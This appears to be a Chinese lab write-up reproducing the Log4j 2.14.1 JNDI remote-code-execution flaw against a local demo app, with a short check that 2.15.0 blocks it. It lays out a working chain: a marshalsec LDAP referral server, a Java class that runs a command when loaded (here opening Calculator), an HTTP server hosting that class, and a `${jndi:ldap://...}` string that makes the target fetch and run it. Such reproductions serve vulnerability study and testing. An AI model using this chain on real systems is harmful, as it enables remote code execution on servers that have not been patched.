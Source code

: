```yaml
---
layout: about
category: about
wrench: 2021-12-15
toc: true
Researchname: Apache Log4J RCE复现历程
author: Bin4xin
permalink: /about/Apache-Log4j-RCE-WalkThrough/
---
```


## Apache Log4j-v2.14-1 RCE

#### 环境准备

- 仓库中demo.jar(更接近实际渗透环境) 或者[idea代码直接调试](https://github.com/tangxiaofeng7/apache-log4j-poc/)

> 值得注意的是：@apache-log4j-poc仓库中的截图poc代码为缺省`127.0.0.1`，我本地并未成功，需调整为网卡监听局域网地址如`192.168.x.x`

- JDK版本11以下，我的测试版本如下：

```bash
>java -version
java version "1.8.0_181"
Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)
```

#### 分析环境

把demo.jar拉到jd-gui中反编译：

`com.example.log4j2_rce.Log4j2RceApplication`

```java
@PostMapping({"/hello"})
public String hello(String payload) {
    System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    logger.error("{}", payload);
    logger.info("{}", payload);
    logger.info(payload);
    logger.error(payload);
    return "ok";
}
```

访问路由为hello，post`payload`参数；

#### 尝试

```bash
$ java -jar demo.jar
  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::        (v2.1.3.RELEASE)
 ···
```

```bash
# 启LDAP服务：
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.3.64/#dnslog"

# 启http：
$ cat dnslog.java
import java.lang.Runtime;
import java.lang.Process;

public class dnslog {
	static {

		try{
	 	Runtime rt = Runtime.getRuntime();
	 	String[] commands = {"open","/System/Applications/Calculator.app"};
	 	Process pc = rt.exec(commands);
	 	pc.waitFor();
	 	}catch (Exception e) {
	 	//no
		}

	}
}
$ javac dnslog.java
$ python3 -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
```

![log4j_poc_success.png](https://s2.loli.net/2021/12/15/ULolm84r2h5yeJS.png)

## 限制

- 目前暂时只知道jdk高版本会报错：`[main] ERROR log4j - Reference Class Name: foo`

这里本人没有测试，可以移步自行分析版本限制[bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)，也欢迎贡献本仓库。

## Apache Log4j-v2.15-0 RCE

#### 环境准备

- 快速开始

修改[idea代码直接调试](https://github.com/tangxiaofeng7/apache-log4j-poc/)代码版本为`<version>2.15.0</version>`：
```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
<!--<version>2.14.1</version>-->
    <version>2.15.0</version>
</dependency>
<!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.15.0</version>
</dependency>
```
运行控制台返回：`23:05:26.715 [main] ERROR log4j - ${jndi:ldap://192.168.3.64:1389/dnslog}`

貌似已经修复了；

## 代码及参考

- [【安全通报】Apache Log4j2 远程代码执行漏洞](https://nosec.org/home/detail/4917.html)
- [bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)